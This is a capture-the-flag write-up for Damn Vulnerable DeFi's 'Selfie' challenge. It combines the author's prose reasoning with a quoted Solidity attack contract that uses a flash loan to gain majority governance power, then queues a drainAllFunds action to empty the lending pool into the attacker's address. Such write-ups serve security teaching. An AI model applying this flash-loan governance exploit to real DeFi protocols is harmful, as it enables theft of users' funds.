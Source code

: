 ## [Challenge #6 - Selfie](https://www.damnvulnerabledefi.xyz/challenges/6.html)

A new cool lending pool has launched! It's now offering flash loans of DVT tokens.

Wow, and it even includes a really fancy governance mechanism to control it.

What could go wrong, right ?

You start with no DVT tokens in balance, and the pool has 1.5 million. Your objective: take them all.

### Solutions

#### Self

OK, I think I have this one figured out on my own. I need to borrow some tokens from the pool. As long as I have more than 50% of the total supply, I can do _governance things_. The thing I need to do with governance permissions, is queue an action. Then I can return my tokens back to the pool. With the tokens returned, the flash loan is satisfied. Then I can wait 2 days (or advance the chain by 2 days), and then execute the action. The action contained the code to `drainAllFunds()` of the pool into the attacker's wallet.   

### [cmichel.io](https://cmichel.io/damn-vulnerable-de-fi-solutions/)

This challenge is similar to the previous one. A governance contract accepting majority token holder decisions can be abused by taking a flash loan. We deposit the flash loan making our attacker a governance token whale which we can use to queue a governance action to drain all funds.

```solidity
function attack() public {
    uint256 flashLoanBalance = token.balanceOf(address(pool));
    attackerEOA = msg.sender;

    // get flash loan
    pool.flashLoan(flashLoanBalance);
}

// called by ISelfiePool::flashLoan
function receiveTokens(
    address, /* tokenAddress */
    uint256 amount
) external {
    // received tokens => take a snapshot because it's checked in queueAction
    token.snapshot();

    // we can now queue a government action to drain all funds to attacker account
    // because it checks the balance of governance tokens (which is the same token as the pool token)
    bytes memory drainAllFundsPayload =
        abi.encodeWithSignature("drainAllFunds(address)", attackerEOA);
    // store actionId so we can later execute it
    actionId = governance.queueAction(
        address(pool),
        drainAllFundsPayload,
        0
    );

    // pay back to flash loan sender
    token.transfer(address(pool), amount);
}
```